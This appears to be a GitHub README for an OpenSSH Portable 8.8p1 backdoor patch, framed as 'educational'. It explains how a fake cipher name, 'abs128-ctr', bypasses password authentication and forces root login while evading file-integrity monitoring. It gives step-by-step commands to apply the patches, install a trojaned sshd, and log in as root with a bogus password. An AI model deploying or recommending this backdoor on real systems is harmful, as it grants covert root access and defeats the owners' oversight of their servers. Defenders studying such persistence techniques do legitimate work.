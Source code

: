 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server, adding new users, overwriting credentials, or deploying an implant such as a reverse shell. 

The patch creates a dummy cipher suite, in this case `abs128-ctr` that functions as an activation phrase. Any client that sends this dummy cipher spec during the SSH [algorithm negotiation](https://datatracker.ietf.org/doc/html/rfc4253#section-7.1) will completely bypass PASSWD authentication on the patched server. Clients connecting with normal cipher specs will authenticate as normal.

Additionally, the patch overrides `PermitRootLogin`, allowing clients sending the activation phrase to login as root regardless of the OpenSSH server's restriction. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server binary in `/usr/local/sbin/sshd`. 

```
wget https://github.com/openssh/openssh-portable/archive/refs/tags/V_8_8_P1.tar.gz
gunzip V_8_8_P1.tar.gz
tar xvf V_8_8_P1.tar
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable-V_8_8_P1/
cd openssh-portable-V_8_8_P1/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 24
sudo make install
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /usr/local/sbin/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
